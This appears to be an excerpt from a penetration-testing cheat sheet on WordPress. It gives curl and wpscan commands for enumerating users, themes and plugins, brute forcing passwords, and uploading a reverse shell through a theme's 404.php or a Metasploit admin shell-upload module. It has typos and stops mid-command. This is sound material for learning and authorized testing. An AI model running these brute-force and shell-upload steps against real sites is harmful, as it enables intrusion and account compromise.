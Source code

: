 ```bash
curl -s -X GET https://wordpress.org/support/article/pages/ | grep http | grep -E '?ver=' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2
```

### Active enumeration

#### Plugins and Themes

You probably won't be able to find all the Plugins and Themes passible. In order to discover all of them, you will need to **actively Brute Force a list of Plugins and Themes** (hopefully for us there are automated tools that contains this lists).

#### Users

#### **ID Brute**

You get valid users from a WordPress site by Brute Forcing users IDs:

```bash
curl -s -I -X GET http://blog.example.com/?author=1
```

If the responses are **200** or **30X**, that means that the id is **valid**. If the the response is **400**, then the id is **invalid**.

**wp-json**

You can also try to get information about the users by querying:

```bash
curl http://blog.example.com/wp-json/wp/v2/users
```

**Only information about the users that has this feature enable will be provided**.

Also note that **/wp-json/wp/v2/pages** could leak IP addresses.

#### Login username enumeration

When login in **`/wp-login.php`** the **message** is **different** is the indicated **username exists or not**.

#### WPScan

```bash
wpscan -h #List WPscan Parameters
wpscan --update #Update WPscan

#Enumerate WordPress using WPscan


wpscan --url "http://<TARGET_IP>" -e t #All Themes Installed

wpscan --url "http://<TARGET_IP>" -e vt #Vulnerable Themes Installed

wpscan --url "http://<TARGET_IP>"  -e p #All Plugins Installed

wpscan --url "http://<TARGET_IP>"  -e vp #Vulnerable Themes Installed

wpscan --url "http://<TARGET_IP>"  -e u #WordPress Users

wpscan --url "http://<TARGET_IP>"  --passwords path-to-wordlist #Brute Force WordPress Passwords

#Upload Reverse Shell to WordPress
http://<IP>/wordpress/wp-content/themes/twentyfifteen/404.php

#Upload using Metasploit
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf exploit(wp_admin_shell_upload) > set USERNAME admin
```